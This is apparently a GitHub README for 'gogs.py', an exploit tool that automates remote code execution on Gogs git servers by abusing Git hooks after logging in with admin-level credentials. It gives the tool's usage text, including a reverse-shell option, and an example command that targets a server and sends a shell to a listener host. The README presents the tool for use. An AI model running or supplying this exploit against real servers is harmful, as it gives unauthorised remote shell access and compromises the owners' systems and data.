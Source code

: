 # Gogs Remote Code Execution
Tool to automate code execution on the server running Gogs git service.  
Inspired from: https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce

![Alt text](./Gogs.png)

## POC

![Alt text](./example.svg)
<!--[![asciicast](https://asciinema.org/a/562896.svg)](https://asciinema.org/a/562896)-->

## How to use
```bash
./gogs.py -h
usage: gogs.py [-h] -s SERVER -u USERNAME -p PASSWORD -r REVSHELL [-t TLS]

Tool to automate code execution on the server running Gogs git service.
[#] Type: Post-Authenticated
[#] Privilege: Permission to create Git hooks (Admin Panel > Users > Edit Account)
[#] Tested: 0.12.9 

options:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        Hostname/IP (port) (path)
  -u USERNAME, --username USERNAME
                        Username of the account
  -p PASSWORD, --password PASSWORD
                        Password of the account
  -r REVSHELL, --revshell REVSHELL
                        <ip>:<port>
  -t TLS, --tls TLS     true or false

```

## Example
```bash
/gogs.py -s 192.168.1.24:8000 -u admin -p 'Password1234' -t false -r 192.168.45.5:80
```
## To-Do
- HTTP Interaction over Internet instead of Reverse Shell
- More enumeration modules ...
